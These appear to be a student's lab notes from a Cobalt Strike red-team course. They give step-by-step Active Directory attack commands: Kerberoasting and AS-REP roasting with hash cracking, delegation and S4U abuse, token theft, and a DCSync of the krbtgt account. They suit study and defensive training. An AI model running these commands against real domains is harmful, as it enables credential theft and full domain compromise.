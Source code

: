 ## Kerberoasting  ( Opsec  Method )
A much safer approach is to enumerate possible candidates first and roast them selectively.  This LDAP query will find domain users who have an SPN set.

Ran ADSEARCH to  from System on WKSTN-2 to get SPN names
```powershell
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName
```
![[Pasted image 20230830125846.png]]
Kerberoasting the individual mssql_svc account - can get krbtgt of any computer that I want to move to.
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap
```
Put KRBTGT into cobalt strike for all three accounts,  squid_svc - honey_svc, - and mssql_svc
![[Pasted image 20230830130619.png]]

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:squid_svc /nowrap
```
![[Pasted image 20230830131102.png]]
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:honey_svc /nowrap
```
![[Pasted image 20230830131039.png]]
As with kerberoasting, we don't want to asreproast every account in the domain.

# Can Use hashcat to crack Kerberoasted Passwords.
# ASREP ROASTING ( Opsec )

Finsing Sam Account Names to ASREP ROAST
```powershell
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
```
![[Pasted image 20230830131857.png]]
AsrepRoasting to get password.
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap
```
![[Pasted image 20230830132606.png]]

Can Crack hash offline
Use `--format=krb5asrep --wordlist=wordlist squid_svc` for john or `-a 0 -m 18200 squid_svc wordlist` for hashcat.

```BASH

$ john --format=krb5asrep --wordlist=wordlist squid_svc
Passw0rd!        ($krb5asrep$squid_svc@dev.cyberbotic.io)
```

# Unconstrained Delegation

This query will return all computers that are permitted for unconstrained delegation
- Ran command on WKSTN-2 as bfarmer
```powershell
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```
![[Pasted image 20230830141841.png]]
In order to capture nlamb's TGT while on WEB.DEV due to web and DC2 being vulnerable to unconstrained delegation - this monitors incoming TGT's. I couldnt find a way to stop the monitoring.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
```
![[Pasted image 20230830144837.png]]
On web we do not have access to the dc
```powershell
ls \\dc-2.dev.cyberbotic.io\c$
```
![[Pasted image 20230830150056.png]]
Now to abuse the Unconstrained Delegation.
Creating a cmd.exe with nlamb's stolen TGT 
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=
```
![[Pasted image 20230830151028.png]]
Stealing token
```powershell
beacon> steal_token 3444
```
![[Pasted image 20230830151125.png]]
Testing to see if we now have access to the dc and we do because we can see the c drive of the dc.
```powershell
ls \\dc-2.dev.cyberbotic.io\c$
```
![[Pasted image 20230830151217.png]]
# Constrained Delegation

This command is used to test Constrained Delegation

```powershell
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json
```
![[Pasted image 20230830152347.png]]

On SQL triag'ing using rubeus  to get LUID
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```
![[Pasted image 20230830154231.png]]
Utilizing Rubeus Luid to get TGT
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap
```
![[Pasted image 20230830154413.png]]

# Alternate Service Name

Impersonating nlamb
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /altservice:ldap /user:sql-2$ /ticket: sql TGT TIcket here
```
![[Pasted image 20230830155836.png]]
Ticket Imported
```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:  SQL TGTTICKET HERE
```
![[Pasted image 20230830160011.png]]
Stealing Token on the sql machine as nlamb
```powershell
beacon> steal_token 1380
```
![[Pasted image 20230830160348.png]]
On DC2 dcsyncing
Got NTLM of krbtgt account.
```powershell
beacon> dcsync dev.cyberbotic.io DEV\krbtgt
```
![[Pasted image 20230830161017.png]]

# S4U2Self Abuse

S4U2 Self abuse is utilized when we have a TGT for one account (nlamb) and want to access it remotely. nlamb is a domain admin therfore will have access to the DC, so as a regular user (bfarmer) we are able to pass a TGT of a privileged user to ourselves.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap
```